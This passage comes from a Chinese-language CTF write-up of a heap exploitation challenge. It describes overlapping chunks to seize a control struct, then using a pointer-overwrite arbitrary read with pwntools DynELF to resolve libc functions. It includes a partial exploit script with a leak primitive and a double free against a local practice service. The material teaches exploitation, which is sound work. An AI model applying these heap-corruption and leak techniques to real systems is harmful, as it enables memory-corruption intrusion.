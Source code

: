 ```python
add(0,0x28)
add(1,0x88)
free(0)
add(2,0x88)
add(3,0x88)#Get the control chunk of car 0
```
此时就可以一个域一个域地覆盖然后通过`show(0)`得到一下结构体.
```s
0x00: type
0x08: color
0x10: size
0x18: ptr
0x20: ---
```
这时候结合前面的`libc`内指针泄漏就可以使用`DynELF`.
emm还有个注意的点我发现`libc`可写段的地址在`DynELF`时不如其`code segment`的地址好用当然如果有`binary`同样的....这个挺玄的不行就加加减减..反正不要卡住就可以.
这里记录一下找了一下午的错误...在`leak`的时候最好设置一个标志..或者`readuntil`的时候的参数长一点否则就会导致得到错误数据.....这个tip虽然很短但是教训很深刻...

之后就可以`look_up`各个函数了...之后的事情就比较简单了.这里是`DynELF`脚本.
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(idx,size,c='A',tp=1,color=1):
	cmd(1)
	cmd(tp)
	cmd(color)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
	p.sendlineafter(": ",str(idx))
def free(idx):
	cmd(4)
	p.sendlineafter(": ",str(idx))
def edit(idx,size,c='A'):
	cmd(2)
	p.sendlineafter(": ",str(idx))
	cmd(2)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
	cmd(3)
def show(idx):
	cmd(3)
	p.sendlineafter(": ",str(idx))
def leak(addr):
	edit(3,0x28,p64(3)*2+p64(0x100)+p64(addr))
	show(0)
	p.readuntil("ti: ")
	data=p.readuntil("\n===")[:-4]
	if len(data)==0:
		return '\0'
	else:
		#print data
		return data
#context.log_level='debug'
context.arch='amd64'
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p=remote('0.0.0.0',1024)
p.sendlineafter(": ","n132")
p.sendlineafter(": ","n132")
add(0,0x88)
add(1,0x38)
for x in range(2):
	free(0)
```
